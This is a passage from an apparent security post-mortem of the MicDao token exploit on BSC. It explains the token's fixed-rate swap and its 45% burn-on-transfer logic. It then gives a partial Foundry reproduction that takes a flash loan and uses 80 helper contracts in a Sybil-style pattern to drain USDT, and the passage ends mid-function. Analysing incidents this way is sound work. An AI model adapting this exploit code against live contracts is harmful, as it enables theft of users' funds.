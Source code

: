 In conclusion, it appears that this MicDao token was designed with a special `swap` entry point that allows for a fixed 1:10 exchange of USDT for MicDao tokens. The entire attack process follows this logic, involving the creation of numerous contracts to call `swap` in exchange for MicDao (in this sense, it resembles a Sybil Attack). It also leverages a thicker liquidity pool to make a profit. 

Furthermore, this MicDao token has the following `transfer` function:

```solidity
function _transfer(address sender, address recipient, uint256 amount) internal override {
    if (pairList[recipient] && !isDelivers[sender]) {
        uint256 toBurn = amount.mul(45).div(100);
        super._transfer(sender, address(1), toBurn);
        amount = amount.sub(toBurn);
    }
    super._transfer(sender, recipient, amount);
}
```

Based on related transactions, `pairList` is set as the PancakePair, while `isDelivers` is set to the aforementioned intermediary contract `swapProxy`. Consequently, if a user tries to transfer tokens directly to the pair for swapping or liquidity provision, 45% of the tokens will be burned.

Moreover, as mentioned earlier, there were no burn operations conducted on MicDao tokens before the attack, indicating that no one attempted token swaps through the pair.

## Exploit

### Reproduction

Based on the analysis above, combined with the AttackTx, we can reproduce the exploit as follows.

```solidity
function testExploit() public {
    uint attackBlockNumber = 32711747;
    vm.rollFork(attackBlockNumber);

    deal(address(usdt), address(this), 0);

    dodo.flashLoan(0, (usdt.balanceOf(address(dodo)) * 99) / 100, address(this), "0x00");

    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(this)), usdt.decimals());
}

function DPPFlashLoanCall(address /*sender*/, uint256 /*baseAmount*/, uint256 quoteAmount, bytes calldata /*data*/) external {
    usdt.approve(address(router), type(uint256).max);
    MicDao.approve(address(router), type(uint256).max);
    usdtToMicDao();

    uint8 i;
    while (i < 80) {
        HelperContract helper = new HelperContract();
        usdt.transfer(address(helper), 2_000 ether);
        helper.work();
        ++i;
    }

    MicDaoTousdt();
    usdt.transfer(msg.sender, quoteAmount);
}

function usdtToMicDao() internal {
    address[] memory path = new address[](2);
    path[0] = address(usdt);
    path[1] = address(MicDao);
```